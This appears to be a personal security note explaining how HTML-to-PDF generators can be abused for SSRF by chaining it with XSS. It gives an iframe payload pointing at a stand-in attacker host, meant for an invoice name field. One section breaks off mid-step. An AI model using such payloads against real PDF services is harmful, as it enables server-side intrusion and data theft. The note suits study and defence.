 Some websites, allows their users to generate a PDF based on the input they have provided.
## Data Exfiltration with Blind SSRF
In the following example scenario, a website accepts a `.html` input via file upload, which then converts the said HTML file into a PDF.

1. First let's confirm 
## SSRF Chain with XSS
If these inputs are non-sanitized, this can lead to a SSRF by chaining it with a [Cross Site Scripting](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FClient-side%20Vulnerabilities%2FCross-Site%20Scripting%2FIntroduction) (XSS) attack.

Usual pre-requisite for an attack like this is for the website to be vulnerable from Cross Site Scripting (XSS). For example, a target website generates an invoice that includes your full name in it. You can use the following payload as your full name: `<iframe src="http://attacker-website.com" width="400" height="400">` which then a PDF generator library would take and generate a PDF and executing the `iframe` code an attacker has provided.
